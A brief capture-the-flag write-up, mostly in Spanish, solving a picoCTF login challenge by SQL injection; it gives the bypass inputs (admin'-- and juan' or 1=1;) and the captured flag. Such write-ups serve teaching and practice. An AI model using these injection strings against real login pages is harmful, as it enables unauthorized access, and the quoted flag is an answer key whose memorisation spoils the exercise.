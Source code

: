 Cuando hay un login hay una base de datos
There is a website running at `https://jupiter.challenges.picoctf.org/problem/33850/` ([link](https://jupiter.challenges.picoctf.org/problem/33850/)) or http://jupiter.challenges.picoctf.org:33850. Do you think you can log us in? Try to see if you can login!


Hints:
1. There doesn't seem to be many ways to interact with this. I wonder if the users are kept in a database?
2. Try to think about how the website verifies your login.


## Solución
```
https://jupiter.challenges.picoctf.org/problem/33850/login.html
Ver codigo fuente o inspeccionar



Poniendo
** Con la Inyección SQL ** 

admin'--   Porque no importa que hay después
hola
o
juan' or 1=1;  De que es verdadero

# ¡Has iniciado sesión!

Tu bandera es: picoCTF{s0m3_SQL_f8adf3fb}

```